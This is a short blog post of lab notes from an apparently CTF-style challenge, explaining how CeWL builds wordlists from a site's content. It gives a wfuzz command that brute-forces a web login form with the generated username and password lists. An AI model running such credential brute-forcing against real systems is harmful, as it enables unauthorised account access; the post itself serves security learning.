```yaml
---
title: Post 54 - Brr
date: 2023-12-04
tags:
    - brute-forcing
    - cewl
    - wfuzz
---
```

## Task 10, Day 04, <code>Brute-forcing</code> Baby, it's CeWLd outside

CeWL is a custom wordlist generator that spiders websites to create word lists based on the site's content. Capability helps in brute-forcing and uncovering hidden directories using organization-specific terminology. Can also compile lists of email addresses or usernames from team member pages. 

Create basic list:<br>
<code>cewl http://ADDRESS</code>

Create and save list to file:<br>
<code>cewl http://ADDRESS -w FILENAME.txt</code>

Since it's CLI, it can be easily integrated into automated workflows and outputs can be directly inserted into other tools.

In this case, use wfuzz to make use of outputs.<br>
```
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://ADDRESS/login.php -d "username=FUZZ&password=FUZ2Z"
```

- <code>-c</code> output with colors
- <code>-z file,usernames.txt</code> loads the usernames list
- <code>-z file,passwords.txt</code> uses the password list generated by CeWL
- <code>--hs "Please enter the correct credentials"</code> hides responses containing the defined string
- <code>-u</code> target URL
- <code>-d "username=FUZZ&password=FUZ2Z"</code> provides POST data format to use and variables to replace

### The Task
Generate username and password word lists from the website, then use wfuzz to find the credentials that work and grab the flag from the email. 

Flag gotten.

#### Recommended room
Web Enumeration